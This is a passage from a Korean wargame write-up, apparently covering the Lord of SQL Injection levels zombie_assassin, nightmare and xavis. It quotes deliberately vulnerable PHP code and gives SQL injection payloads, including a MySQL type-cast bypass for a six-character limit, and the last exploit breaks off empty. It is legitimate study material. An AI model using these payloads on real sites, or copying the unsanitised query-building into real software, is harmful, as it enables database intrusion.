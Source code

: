 ```sql
select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
-> select id from prob_zombie_assassin where id='"\' and pw='or 1=1-- -'
payload= id="&pw=- --1=1 ro
```
<br>

## Nightmare
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)|#|-/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(strlen($_GET[pw])>6) exit("No Hack ~_~"); 
  $query = "select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("nightmare"); 
  highlight_file(__FILE__); 
?>
```
### exploit
크게 필터링하는 부분은 없지만 pw의 입력값이 6을 넘어가면 안된다.
이를 우회하기 위해 mysql의 Auto_type_cast를 사용한다.
```sql
select id from prob_nightmare where pw=('{$_GET[pw]}') and id!='admin'
-> select id from prob_nightmare where pw=('')=0;') and id!='admin'
payload = ')=0;%00
```
**Automatic_type_cast:** mysql에서 사용되는 자동 형변화 기능
ex) '123abc' = 123, 'abc123' != 123, 'abc'=0<br>
1. 문자열 앞에 오는 숫자는 자동으로 int 타입으로 변환하여 비교
2. 문자열 뒤에 오는 숫자는 자동변환 불가
3. 문자열 앞에 숫자가 없다면 0으로 취급

<br>


## Xavis
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/regex|like/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_xavis where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("xavis"); 
  highlight_file(__FILE__); 
?>
```
### exploit
regex와 like를 제외하면 별다른 필터링이 없는 것을 알 수 있다.
```python
import requests

```